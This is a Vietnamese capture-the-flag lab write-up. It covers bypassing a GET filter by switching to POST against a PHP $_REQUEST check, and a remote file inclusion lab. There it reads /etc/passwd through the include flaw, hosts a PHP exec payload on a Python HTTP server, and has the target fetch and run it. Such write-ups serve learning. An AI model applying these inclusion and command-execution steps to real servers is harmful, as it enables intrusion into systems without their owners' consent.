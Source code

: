 Bài này thì dựa vào hint thôi, chứ thử ở biến GET mãi nó filter bằng hết rồi, thì web đang sử dụng $_REQUESTS_ , Biến $_REQUEST_ được sử dụng để truy cập thông tin về các biến được gửi đến server bằng cả hai phương thức GET và POST, ta có thể tận dụng bằng cách đổi method:

![image](https://user-images.githubusercontent.com/104350480/222953294-a305c90e-e40b-4ece-96aa-90fc3f6065ac.png)

> flag: P0st_1s_w0rk1in9

__

Lab #Playground: Include a file in the input form below
__

Bài này là bài lab của remote file inclusion, thực ra thì ý tưởng rất đơn giản ta chỉ cần dựng local, post file lên rồi truy cho máy chủ get file của ta 
rồi thực thi lệnh 'hostname' ở đây là được. Vừa vào test /etc/passwd thì nó hiện luôn, hàm dính lỗi lfi ở include, ta dựa vào để rce, truyền vào 1 đường dẫn
để thực thi.

Tạo ở server file test.txt với nội dung: <?php print exec('hostname'); ?> để in ra hostname

Dựng local với code bên dưới, để port 8000, có cái là có thể dựng nhanh bằng python3 -m http.server 8000, nhưng lúc thì nó cho thực hiện phương thức POST
lúc thì không nên là cũng dựng thế này cho chắc.

```
import http.server
import socketserver

PORT = 8000

class MyRequestHandler(http.server.SimpleHTTPRequestHandler):
    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length)

        # save the post_data to a file
        with open('uploaded_file.txt', 'wb') as f:
            f.write(post_data)

        # send a response to the client
        self.send_response(200)
        self.send_header('Content-type', 'text/plain')
        self.end_headers()
        self.wfile.write(b'File uploaded successfully')

handler = MyRequestHandler

with socketserver.TCPServer(("", PORT), handler) as httpd:
    print("serving at port", PORT)
    httpd.serve_forever()

```

Sau đấy dùng curl -X POST -d 'test.txt' **http://127.0.0.1:8000/test.txt** để post file lên server.
